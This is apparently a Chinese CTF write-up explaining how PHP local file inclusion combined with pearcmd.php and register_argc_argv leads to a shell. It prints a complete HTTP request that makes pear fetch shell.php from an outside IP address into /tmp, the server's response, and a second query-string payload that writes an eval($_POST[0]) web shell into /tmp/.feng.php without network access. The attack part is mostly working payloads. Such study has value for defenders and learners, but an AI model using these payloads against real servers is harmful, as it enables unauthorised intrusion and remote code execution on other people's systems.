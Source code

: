﻿﻿# 前言

也是从来没有学习过这种LFI的思路。今天晚上再复现前几天的强网杯拟态的时候遇到了这个`pearcms.php`的文件包含，进行了一波学习。

# 环境

- 安装了pear（这样才能有pearcmd.php）
- 开启了`register_argc_argv`
- 存在文件包含且可以包含后缀为php的文件且没有`open_basedir`的限制。

先说说这个pear。我就说觉得这东西为什么很眼熟，原来昨天看php底层C的目录结构的时候刚看到过。这个东西的全称叫PHP Extension and Application Repository，PHP扩展与应用仓库。Pear 仓库代码是以包（package）分区，每一个 `Pear package` 都是一个独立的项目有着自己独立的开发团队、版本控制、文档和其他包的依赖关系信息。Pear package 以 phar、tar 或 zip 发布。

默认应该是安装的：

> When using PHP, the PEAR Package Manager is already installed unless one has used the `./configure` option `--without-pear`.
>
> If one uses a version of PHP that is supplied by Unix/Linux/BSD distributors it may be necessary to manually install PEAR. Users should consult the documentation for the respective distribution in this case.

但是我发现我的lamp环境里面就没有。。。。所以自己手动装了一下：

```shell
wget http://pear.php.net/go-pear.phar
php go-pear.phar
```

可能php版本的问题，我这个php8的docker环境里面的pearcmd.php的位置在`/usr/share/pear/pearcmd.php`，一般都是在`/usr/local/lib/php/pearcmd.php`



其次就是需要开启`register_argc_argv`这个东西。这个东西之前做ctfshow的PHP特性的时候遇到过一次，如果存在php.ini的话，默认是Off。如果没有php.ini则默认是Off。

PHP官方提供的镜像里面也是默认没有php.ini，所以也是默认开启了这个`register_argc_argv`：

![image-20211029193254228](利用pearcmd.php从LFI到getshell.assets/image-20211029193254228.png)




而开启了这个东西有什么用呢？开启的时候`$_SERVER[‘argv’]`就会生效。

> 1、cli模式（命令行）下
>
> 	第一个参数$_SERVER['argv'][0]是脚本名，其余的是传递给脚本的参数
>
> 2、web网页模式下
>
> 	在web页模式下必须在php.ini开启register_argc_argv配置项
> 		
> 	设置register_argc_argv = On(默认是Off)，重启服务，$_SERVER[‘argv’]才会有效果
> 		
> 	这时候的$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]
> 		
> 	$argv,$argc在web模式下不适用



测试一下就知道：

```php
<?php
var_dump($_SERVER['argv']);
```



![image-20211029193612760](利用pearcmd.php从LFI到getshell.assets/image-20211029193612760.png)


且argv是通过+作为分隔符：

![image-20211029193708336](利用pearcmd.php从LFI到getshell.assets/image-20211029193708336.png)




# 分析

`pear`本身是一个sh程序：

```sh
root@a93acbe29c09:/usr/local/etc# cat /usr/bin/pear
#!/bin/sh

# first find which PHP binary to use
if test "x$PHP_PEAR_PHP_BIN" != "x"; then
  PHP="$PHP_PEAR_PHP_BIN"
else
  if test "/usr/bin/php" = '@'php_bin'@'; then
    PHP=php
  else
    PHP="/usr/bin/php"
  fi
fi

# then look for the right pear include dir
if test "x$PHP_PEAR_INSTALL_DIR" != "x"; then
  INCDIR=$PHP_PEAR_INSTALL_DIR
  INCARG="-d include_path=$PHP_PEAR_INSTALL_DIR"
else
  if test "/usr/share/pear" = '@'php_dir'@'; then
    INCDIR=`dirname $0`
    INCARG=""
  else
    INCDIR="/usr/share/pear"
    INCARG="-d include_path=/usr/share/pear"
  fi
fi

exec $PHP -C -q $INCARG -d date.timezone=UTC -d output_buffering=1 -d variables_order=EGPCS -d open_basedir="" -d safe_mode=0 -d register_argc_argv="On" -d auto_prepend_file="" -d auto_append_file="" $INCDIR/pearcmd.php "$@"

```

最后一行看到它调用了`pearcmd.php`。这里忽略一些细节，只需要知道，pearcmd.php中`$argv`就是通过`$_SERVER['argv']`来获取到的。

这样就通过包含`pearcmd.php`，利用`$_SERVER['argv']`来调用pear命令。





那么pear命令到底是干什么的呢？可能之前从来没有用过而且不太懂，但是既然我们是学PHP的，联想一下最常用的那个composer，就豁然开朗了。不都是php什么管理器嘛，composer就是查找指定的一个包，然后把它下载下来，还可以更新等等（联想到之前用composer下载thinkphp）。

那pear是不是也可以呢？如果pear也可以下载东西并且保存在本地的话，在我们已经有一个文件包含的情况下，下载一个恶意的php文件然后包含它不就可以利用了？



也确实是可以的，命令就是：

```shell
pear install -R /tmp http://xxxxxxx/shell.php
```

这样就可以把`shell.php`下载到`/tmp`目录下面（- R可以指定下载文件保存的目录）。



攻击一波：

```http
GET /?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://121.5.169.223:39777/shell.php HTTP/1.1
Host: 119.45.254.56:23343
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


```

返回结果：

```http
HTTP/1.1 200 OK
Date: Fri, 29 Oct 2021 11:54:20 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.3.4
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 329

downloading shell.php ...
Starting to download shell.php (23 bytes)
....done: 23 bytes
Could not get contents of package "/tmp/tmp/pear/download/shell.php". Invalid tgz file.
Download of "http://121.5.169.223:39777/shell.php" succeeded, but it is not a valid package archive
Invalid or missing remote package file
install failed

```

告诉我们下载到了`/tmp/tmp/pear/download/shell.php`，再去包含它即可getshell。



## 不出网

不出网的情况下还有别的利用姿势（相对来说也是最简单的）：

```
pear -c /tmp/.feng.php -d man_dir=<?=eval($_POST[0]);?> -s
```

查一下：

```shell
root@VM-0-6-ubuntu:~/somefile# pear help options
Options:
     -v         increase verbosity level (default 1)
     -q         be quiet, decrease verbosity level
     -c file    find user configuration in `file'
     -C file    find system configuration in `file'
     -d foo=bar set user config variable `foo' to `bar'
     -D foo=bar set system config variable `foo' to `bar'
     -G         start in graphical (Gtk) mode
     -s         store user configuration
     -S         store system configuration
     -u foo     unset `foo' in the user configuration
     -h, -?     display help/usage (this message)
     -V         version information


```

所以就相当于写配置到`/tmp/.feng.php`了，内容和文件名都可控，不好的地方可能就是如果没写好的话容易G。

```shell
?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/.feng.php+-d+man_dir=<?eval($_POST[0]);?>+-s+
```

如果没有开启短标签的话，还是下载文件比较好用。但是也是很有意思的一种利用方式了。
